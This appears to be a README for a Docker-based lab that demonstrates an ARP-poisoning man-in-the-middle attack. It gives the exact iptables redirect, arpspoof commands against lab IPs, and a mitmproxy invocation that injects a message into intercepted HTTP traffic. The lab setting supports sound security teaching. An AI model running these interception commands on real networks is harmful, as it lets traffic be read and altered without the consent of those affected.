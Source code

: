 # ARP Poisoning MITM using Docker containers 

## 1. Start the Containers

```bash
(sudo) docker compose up
```

---

## 2. Enter as the attacker (you will need multiple sessions)

```bash
sudo docker exec -it attacker bash
```
---

## 3. Define rule

With that rule you're telling to intercept all incoming traffic on eth0 destined for port 80 and redirect it internally to port 8080

```bash
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```

---

## 4. Start ARP Poisoning

Run two `arpspoof` processes in different windows

```bash
arpspoof -i eth0 -t 192.168.90.101 192.168.90.100 
arpspoof -i eth0 -t 192.168.90.100 192.168.90.101 
```

---

## 5. Start mitmproxy in labscripts folder

```bash
cd labscripts && mitmproxy -s tweak_body.py --mode transparent --listen-port 8080 --showhost
```

You can now inspect all the requests and responses exchanged between the client and the server. Additionally, the message "You have been tricked!!!" will be added to each request to confirm that the attack was successfully executed.